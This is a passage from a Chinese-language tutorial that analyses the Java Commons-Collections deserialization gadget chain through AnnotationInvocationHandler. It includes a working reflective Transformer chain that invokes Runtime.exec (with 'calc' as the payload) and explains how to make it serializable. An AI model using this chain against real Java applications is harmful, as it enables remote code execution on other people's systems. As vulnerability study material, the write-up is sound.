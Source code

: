 ```java
                Object var8 = var5.getValue();
                if (!var7.isInstance(var8) && !(var8 instanceof ExceptionProxy)) {
                    var5.setValue((new AnnotationTypeMismatchExceptionProxy(var8.getClass() + "[" + var8 + "]")).setMember((Method)var2.members().get(var6)));
                }
            }
        }

    }
```

在`readObject`方法中，关键的这几行代码：

```java
Iterator var4 = this.memberValues.entrySet().iterator();
Entry var5 = (Entry)var4.next();
var5.setValue(
```

前面提到了，`setValue`同样可以触发我们的“回调函数”，因此可以触发漏洞。至此链也就理清了，剩下的就是构造POC的细节问题了。

## Runtime的问题

在序列化的时候会报无法序列化的错误。原因就在于`Runtime`类并没有实现`Serializable`接口，所以无法序列化：

```java
new ConstantTransformer(Runtime.getRuntime()),
```

这里P神采用了一种迂回的写法，因为`Class`类是实现了`Serializable`接口的，而且既然可以链式的调用方法，利用反射即可：

```java
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Class.forName("java.lang.Runtime")),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class,Class[].class},
                        new Object[]{"getRuntime",new Class[]{}}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class,Object[].class},
                        new Object[]{null,new Object[]{}}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{"calc"})
        };
```



## AnnotationInvocationHandler对象的问题

既然要反序列化`AnnotationInvocationHandler`的对象，自然要构造出来。看一下它的构造器：

```java
package sun.reflect.annotation;   

      AnnotationInvocationHandler(Class<? extends Annotation> var1, Map<String, Object> var2) {
        Class[] var3 = var1.getInterfaces();
        if (var1.isAnnotation() && var3.length == 1 && var3[0] == Annotation.class) {
            this.type = var1;
            this.memberValues = var2;
        } else {
            throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
        }
    }
```
